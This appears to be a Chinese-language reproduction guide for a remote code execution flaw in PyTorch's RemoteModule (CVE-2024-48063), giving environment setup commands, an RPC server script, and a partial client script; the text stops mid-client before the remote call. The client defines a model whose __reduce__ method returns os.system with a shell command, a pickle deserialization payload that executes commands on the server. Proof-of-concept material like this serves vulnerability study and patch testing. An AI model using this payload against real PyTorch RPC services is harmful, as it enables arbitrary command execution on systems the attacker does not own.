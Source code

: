 # PyTorch RemoteModule模块反序列化RCE漏洞

# 漏洞环境

- PyTorch ≤ 2.4.1
- 使用 cpu 而不是 CUDA 张量，因为在使用 CUDA 张量的情况下不支持 RemoteModule

# 漏洞复现步骤

1. 用`conda`创建虚拟环境安装

   ```shell
   conda create -n CVE-2024-48063 python=3.9
   ```

2. pip 安装 `torch2.4.1`

   ```shell
   pip install torch==2.4.1 torchvision==0.19.1 torchaudio==2.4.1 --index-url https://download.pytorch.org/whl/cpu
   ```

3. 创建服务端

   ```python
   # server.py
   import torch
   import torch.distributed.rpc as rpc
   
   
   def run_server():
       # 初始化RPC环境，指定服务端名称、排名和世界大小
       rpc.init_rpc(name="server", rank=0, world_size=2)
   
       # 保持服务端运行，等待来自客户端的RPC请求
       rpc.shutdown()
   
   if __name__ == "__main__":
       run_server()
   ```

4. 创建用户端

   ```python
   # client.py
   import torch
   import torch.distributed.rpc as rpc
   from torch.distributed.nn.api.remote_module import RemoteModule
   import torch.nn as nn
   
   # 定义一个简单的神经网络模型
   class MyModel(nn.Module):
       def __init__(self):
           super(MyModel, self).__init__()
           self.linear = nn.Linear(1, 1)
   
       # 定义一个魔术方法
       def __reduce__(self):
           return (__import__('os').system, ("id;ls",))
   
   def run_client():
       # 初始化RPC环境，指定客户端名称、排名和世界大小
       rpc.init_rpc(name="client", rank=1, world_size=2)
   
       # 远程调用服务器端的函数
   ```